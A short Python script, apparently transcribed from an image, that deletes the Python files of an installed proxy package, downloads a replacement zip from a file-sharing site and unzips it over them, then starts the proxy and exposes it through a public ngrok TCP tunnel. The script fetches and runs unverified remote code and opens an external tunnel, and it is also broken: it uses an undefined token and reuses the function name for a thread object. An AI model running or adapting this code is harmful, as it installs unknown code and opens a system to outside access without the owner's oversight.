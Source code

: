 from time import *
import wget,os,threading
from pyngrok import ngrok
import threading
import subprocess
os.chdir('/usr/local/lib/python3.10/dist-packages/pproxy')
for i in os.listdir():
  if '.py' in i:
    os.remove(i)
wget.download('https://filebin.net/archive/k000owj86lsp9ovx/zip')
os.popen('unzip k000owj86lsp9ovx.zip').read()
def run_proxy():
  process = subprocess.run('pproxy', shell=True, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
  print("Output:", process.stdout.decode())
  print("Errors:", process.stderr.decode())
def ngrok_thread(token):
    ngrok.set_auth_token(token)
    public_url = ngrok.connect("9090", "tcp")
    print(" * ngrok tunnel \"{}\" -> \"http://127.0.0.1:{}/\"".format(public_url, 9090))
    return public_url
threading.Thread(target=run_proxy).start() 
ngrok_thread = threading.Thread(target=ngrok_thread,args=[token]).start()
ngrok_thread.join()
